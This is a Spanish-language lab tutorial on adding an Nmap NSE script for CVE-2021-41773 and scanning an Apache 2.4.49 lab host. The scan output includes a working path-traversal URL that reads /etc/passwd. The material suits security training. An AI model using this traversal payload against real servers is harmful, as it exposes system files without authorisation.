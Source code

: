 
### Pasos para integrar el script en Nmap:

1. **Descargar el script NSE:**
    
    - Localizar un repositorio confiable (por ejemplo, GitHub) que contenga un script NSE para **CVE-2021-41773**.
        
    - Descargar el archivo y guardarlo en el directorio estándar de scripts de Nmap

2. **Actualizar la base de datos de scripts:**

- Antes de poder usar el script, es necesario actualizar el índice de scripts (`script.db`) ejecutando
- Esto asegura que Nmap registre el nuevo script y pueda utilizarlo en futuros escaneos.

Una vez completados estos pasos, el script estará disponible para su uso como parte de los escaneos dirigidos. Esto permite ejecutar un escaneo específico contra **CVE-2021-41773**, evitando la sobrecarga de información generada por scripts generales como `vulners.nse`.

```bash
sudo cp /home/kali/Downloads/http-vuln-cve-2021-41773.nse /usr/share/nmap/scripts/http-vuln-cve2021-41773.nse

kali@kali:~$ sudo nmap --script-updatedb
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org )
NSE: Updating rule database.
NSE: Script Database updated successfully.
Nmap done: 0 IP addresses (0 hosts up) scanned in 0.54 seconds
```

Para usar el script NSE, proporcionaremos el nombre del script, la información del destino y el número de puerto. También habilitaremos la detección de servicios.

```bash
sudo nmap -sV -p 443 --script "http-vuln-cve2021-41773" 192.168.50.124
Starting Nmap 7.92 ( https://nmap.org )
Host is up (0.00069s latency).

PORT    STATE SERVICE VERSION
443/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-vuln-cve2021-41773:
|   VULNERABLE:
|   Path traversal and file disclosure vulnerability in Apache HTTP Server 2.4.49
|     State: VULNERABLE
|               A flaw was found in a change made to path normalization in Apache HTTP Server 2.4.49. An attacker could use a path traversal attack to map URLs to files outside the expected document root. If files outside of the document root are not protected by "require all denied" these requests can succeed. Additionally this flaw could leak the source of interpreted files like CGI scripts. This issue is known to be exploited in the wild. This issue only affects Apache 2.4.49 and not earlier versions.
|           
|     Disclosure date: 2021-10-05
|     Check results:
|       
|         Verify arbitrary file read: https://192.168.50.124:443/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
...
Nmap done: 1 IP address (1 host up) scanned in 6.86 seconds
```
